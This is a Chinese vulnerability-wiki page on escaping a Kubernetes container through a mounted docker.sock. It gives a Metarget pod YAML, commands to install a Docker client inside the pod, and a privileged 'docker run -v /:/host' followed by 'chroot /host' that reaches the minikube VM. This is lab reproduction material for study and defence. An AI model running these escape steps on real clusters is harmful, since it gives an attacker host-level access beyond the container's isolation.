




# 挂载 docker.sock 导致容器逃逸

> 版本字段校订（2026-10-04）：Docker 18.09.3 是原文实验运行时版本，不能作为此配置或权限问题的影响范围。`version` 与 `affected_versions` 改为明确待核，旧值保存在 `previous_*`；实验组件清单及全部 YAML、命令与结果原样保留。后文相关元数据误填说明描述校订前状态。

<!-- vulwiki-editorial:start -->
## 校订与适用边界

- 适用前提：socket挂载可访问且进程有权限，daemon能创建特权/host挂载容器；示例逃逸终点是minikube VM
- 证据范围：明确minikube不是物理宿主，提供YAML和复现实例；版本为实验环境不代表漏洞边界

### 尚未解决的证据缺口

以下限制仍适用于后文历史材料；相关版本、结果或修复结论不能据此视为已验证：

- 环境复原误删k8s_node_proxy.yaml而非创建的namespace，且未清理直接docker创建sock-test容器
- version元数据实验18.09.3易误当影响版本
- 应交代K8s1.32使用旧Docker的CRI适配和minikube驱动

本页为文本校订，未执行代码、PoC 或目标请求；原图仅保留引用，未据此确认复现成功。
<!-- vulwiki-editorial:end -->

## 技术正文与历史材料

## 漏洞描述

Docker Socket 是 Docker 守护进程监听的 Unix 域套接字，用来与守护进程通信——查询信息或下发命令。如果在攻击者可控的容器内挂载了该套接字文件（/var/run/docker.sock），可通过 Docker Socket 与 Docker 守护进程通信，发送命令创建并运行一个新的容器，将宿主机的根目录挂载到新创建的容器内部，完成简单逃逸。

参考链接：

- https://mp.weixin.qq.com/s/_GwGS0cVRmuWEetwMesauQ

## 环境搭建

基础环境准备（Docker + Minikube + Kubernetes），可参考 [Kubernetes + Ubuntu 18.04 漏洞环境搭建](https://github.com/Threekiii/Awesome-POC/blob/master/%E4%BA%91%E5%AE%89%E5%85%A8%E6%BC%8F%E6%B4%9E/Kubernetes%20%2B%20Ubuntu%2018.04%20%E6%BC%8F%E6%B4%9E%E7%8E%AF%E5%A2%83%E6%90%AD%E5%BB%BA.md) 完成。

本例中各组件版本如下：

```
Docker version: 18.09.3
minikube version: v1.35.0
Kubectl Client Version: v1.32.3
Kubectl Server Version: v1.32.0
```

通过 yaml 文件创建漏洞环境：

```
kubectl apply -f k8s_metarget_namespace.yaml
kubectl apply -f mount-docker-sock.yaml
```

执行完成后，K8s 集群内 `metarget` 命名空间下将会创建一个名为 `mount-docker-sock` 的 pod，宿主机的 `/var/run/docker.sock` 被挂载在容器内部：

```
kubectl get pods -n metarget
-----
NAME                READY   STATUS    RESTARTS   AGE
mount-docker-sock   1/1     Running   0          13s
```




## 漏洞复现

通过以下两个步骤来完成简单逃逸：

1. 在容器内安装 Docker 命令行客户端
2. 使用容器内的客户端通过 Docker socket 与 Docker 守护进程通信，发送命令创建并运行一个挂载宿主机根目录的容器，实现基本逃逸。

执行以下命令进入容器:

```shell
kubectl exec -n metarget -it mount-docker-sock -- bash
```

在容器内安装 Docker 命令行客户端:

```
# 先将源替换为中科大源
sed -i 's/archive.ubuntu.com/mirrors.ustc.edu.cn/g' /etc/apt/sources.list
apt update && apt install -y wget

# 然后下载编译好的 docker 客户端
wget https://download.docker.com/linux/static/stable/x86_64/docker-17.03.0-ce.tgz
tar xf ./docker-17.03.0-ce.tgz
```

成功安装 Docker 客户端:

```
root@mount-docker-sock:/# cd docker
root@mount-docker-sock:/docker# ls
docker  docker-containerd  docker-containerd-ctr  docker-containerd-shim  docker-init  docker-proxy  docker-runc  dockerd
```




执行 docker 命令 `docker ps`，结果和宿主机相同，证实 docker.sock 挂载成功：

```
root@mount-docker-sock:/docker# ./docker ps
CONTAINER ID        IMAGE                        COMMAND                  CREATED             STATUS              PORTS               NAMES
abf602bae267        602eb6fb314b                 "/bin/bash -c -- '..."   8 minutes ago       Up 8 minutes                            k8s_ubuntu_mount-docker-sock_metarget_75b4ad1b-0193-4008-b559-4dbd7d92cc3f_0
b347f319bf8b        registry.k8s.io/pause:3.10   "/pause"                 8 minutes ago       Up 8 minutes                            k8s_POD_mount-docker-sock_metarget_75b4ad1b-0193-4008-b559-4dbd7d92cc3f_0
...
```




启动一个挂载宿主机根目录的特权容器，完成简单逃逸：

```
kubectl exec -n metarget -it mount-docker-sock -- bash
root@mount-docker-sock:/# cd docker
root@mount-docker-sock:/docker# ./docker run -it -v /:/host --privileged --name=sock-test ubuntu /bin/bash
root@5b61ce1ed2ce:/# chroot /host
# cat /etc/hostname
minikube
```




> 由于我们是在 minikube 上运行 kubernetes，这里逃逸到的是 minikube 虚拟机。

## 环境复原

```
kubectl delete -f mount-docker-sock.yaml
kubectl delete -f k8s_node_proxy.yaml
```

## YAML

[mount-docker-sock.yaml](https://github.com/Metarget/metarget/blob/master/vulns_cn/mounts/pods/mount-docker-sock.yaml)

```
apiVersion: v1
kind: Pod
metadata:
  name: mount-docker-sock
  namespace: metarget
spec:
  containers:
  - name: ubuntu
    image: ubuntu:latest
    imagePullPolicy: IfNotPresent
    # Just spin & wait forever
    command: [ "/bin/bash", "-c", "--" ]
    args: [ "while true; do sleep 30; done;" ]
    volumeMounts:
    - name: docker-sock
      mountPath: /var/run/docker.sock
  volumes:
    - name: docker-sock
      hostPath:
        path: /var/run/docker.sock
```


---

> 来源：Threekiii/Vulnerability-Wiki（https://github.com/Threekiii/Vulnerability-Wiki）
